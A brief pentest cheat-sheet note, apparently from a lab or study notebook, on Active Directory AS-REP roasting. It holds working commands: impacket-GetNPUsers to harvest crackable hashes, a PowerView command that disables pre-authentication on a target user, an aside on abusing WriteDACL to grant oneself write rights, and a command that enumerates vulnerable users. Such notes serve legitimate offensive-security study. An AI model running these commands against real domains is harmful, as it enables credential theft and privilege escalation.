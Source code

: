 
```bash
impacket-GetNPUsers lol.local/ -usersfile valid_users.txt -format hashcat -dc-ip 10.10.111.10
```

> [!NOTE] NOTE
> You have to have a valid account credentials on the domain

---

we can turn on `Don't require pre-auth` by manipulating  the `useraccountcontrol`:
```powershell
Set-DomainObject -Identity ITguy -XOR @{useraccountcontrol=4194304} -Verbose
```

but the user has to have to has:
- ``WriteProperty``
- ``GenericWrite`` on the entire user object
- `WriteDACL` indirect but **we can add yourself a new ACE** granting yourself `WriteProperty` or `GenericWrite`, then use that to modify `userAccountControl`.
---

get the users of which the `pre-auth` is enabled by:
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
